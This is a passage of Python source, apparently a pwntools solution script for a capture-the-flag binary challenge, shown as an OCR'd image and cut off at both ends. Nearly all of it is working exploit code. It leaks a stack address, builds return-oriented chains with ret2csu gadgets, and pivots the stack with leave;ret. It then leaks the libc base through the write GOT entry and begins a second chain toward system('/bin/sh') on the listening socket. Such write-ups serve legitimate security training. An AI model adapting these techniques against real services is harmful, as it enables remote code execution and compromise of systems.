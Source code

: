 ```python
            r12,
            r13,
            r14,
            r15
        ]
    )

    return payload


def solve():

    io.recvuntil(b"spoken:")
    stack = int(io.recvline().strip(), 16)
    info("buf: %#x", stack)

    pop_rdi = 0x400e93 # pop rdi; ret;
    pop_rsi_r15 = 0x400e91 # pop rsi; pop r15; ret;
    pop_rbp = 0x400a28 # pop rbp; ret;
    leave_ret = 0x400b39 # leave; ret;
    ret = 0x40085e # ret; 
    csu_call = 0x400e70 
    offset = 256
    listen_fd = 4

    padding = [0xdeadbeef] * 7

    payload = flat(
        [
            ret2csu(0, 1, exe.got["write"], listen_fd, exe.got["write"], 0x8),
            csu_call,
            *padding,
            pop_rbp,
            stack,
            pop_rdi,
            listen_fd,
            exe.sym["getinput"] + 1
        ]
    )

    payload = payload.ljust(offset, b".") + p64(stack - 8) + p64(leave_ret)
    io.sendafter(b"?", payload)

    io.recvuntil(b"unfolds...\n\x00")
    libc.address = u64(io.recv(6).ljust(8, b"\x00")) - libc.sym["write"]
    info("libc base: %#x", libc.address)

    offset = 264 - 8
    new_stack = stack - 0x60
    rop = ROP(libc)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    pop_rsi = rop.find_gadget(["pop rsi", "ret"])[0]
    sh = next(libc.search(b"/bin/sh\x00"))
    system = libc.sym["system"]

    info("new stack: %#x", new_stack)

    payload = flat(
        [
            pop_rdi,
            listen_fd,
            pop_rsi,
            0,
```